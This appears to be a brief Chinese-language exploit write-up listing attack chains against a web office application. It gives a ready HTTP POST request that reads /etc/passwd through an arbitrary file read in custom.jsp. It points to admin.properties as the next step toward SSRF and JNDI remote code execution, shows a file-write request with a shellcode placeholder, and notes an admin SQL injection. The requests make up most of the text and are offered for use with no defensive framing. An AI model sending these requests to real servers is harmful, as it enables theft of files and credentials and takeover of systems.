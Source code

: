 # 0x01-任意文件读取
访问/sys/ui/extend/varkind/custom.jsp
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}
```

# 0x02-SSRF+JNDI远程代码执行
基于上面的任意文件读取
```
/WEB-INF/KmssConfig/admin.properties
```

# 0x03-任意文件写入漏洞
基于上面的任意文件读取
```
var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[shellcode]
```

# 0x04-EKP后台SQL注入
后台地址/admin.do

# 参考链接
https://blog.csdn.net/xd_2021/article/details/121893236